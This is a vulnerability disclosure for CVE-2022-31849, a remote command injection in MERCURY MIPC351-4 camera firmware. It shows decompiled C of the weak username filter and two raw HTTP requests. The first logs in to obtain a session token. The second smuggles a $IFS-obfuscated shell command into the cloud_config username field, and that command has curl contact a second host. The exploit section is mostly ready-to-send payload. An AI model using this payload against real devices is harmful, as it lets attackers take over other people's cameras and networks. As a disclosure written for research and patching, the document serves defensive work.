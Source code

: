 # MERCURY MIPC351-4 command_execution

**CVE ID**: CVE-2022-31849

**Vender**: MERCURY

**Vendor Homepage**: https://www.mercurycom.com.cn/

**Affect products**: MIPC351-4

**Firmware version**: V5.x(20210728_1.0.8)

**Hardware Link**: https://service.mercurycom.com.cn/download/202111/MIPC351-4%20V5.X%E5%8D%87%E7%BA%A7%E8%BD%AF%E4%BB%B620210728_1.0.8.zip

**Exploit Author**: [SkYe231@Hillstone](mailto:ext-lhliang@Hillstonenet.com)

## describe

The Mercury MIPC351-4 has remote command execution, and remote attackers can bypass restrictions through carefully constructed packets to achieve remote command execution.

## detail

Taking the mailbox name as the core filtering rule of username, the rules only filter the mailbox format (see the code comments for details), and do not filter special symbols, so there is a chance of injection.

> file:/usr/bin/dsd

```c
/* expect return value 1 */

int FUN_00024aa4(byte *param_1)

{
  size_t sVar1;
  char *pcVar2;
  int iVar3;
  
                    /* username is empty */
  if (param_1 == (byte *)0x0) {
    return 0;
  }
                    /* length is 0 */
  sVar1 = strlen((char *)param_1);
  if (sVar1 == 0) {
    return 0;
  }
                    /* Limit length<129 */
  if ((int)sVar1 < 129) {
                    /* matches @ */
    pcVar2 = strchr((char *)param_1,L'@');
                    /* no matches */
    if (pcVar2 == (char *)0x0) {
      return 0;
    }
                    /* Does it end with @ */
    if (param_1[sVar1 - 1] != 0x40) {
                    /* Does it start with @ */
      iVar3 = *param_1 - 0x40;
      if (iVar3 != 0) {
        iVar3 = 1;
      }
      return iVar3;
    }
  }
  return 0;
}
```

## EXP

1. Log in to the background to get **stok** (cookie)

    ```
    POST / HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 73
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"method":"do","login":{"username":"{your_name}","password":"{your_password}"}}
    ```

2. Trigger remote command execution

    > Command:`curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231'`

    ```
    POST /stok=05173d0162e8c77387fa1bbc12b2fa62/ds HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 147
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"cloud_config":{"bind":{"username":"\"}';curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231';'{\"@mrskye.com","password":"admin123"}},"method":"do"}
    ```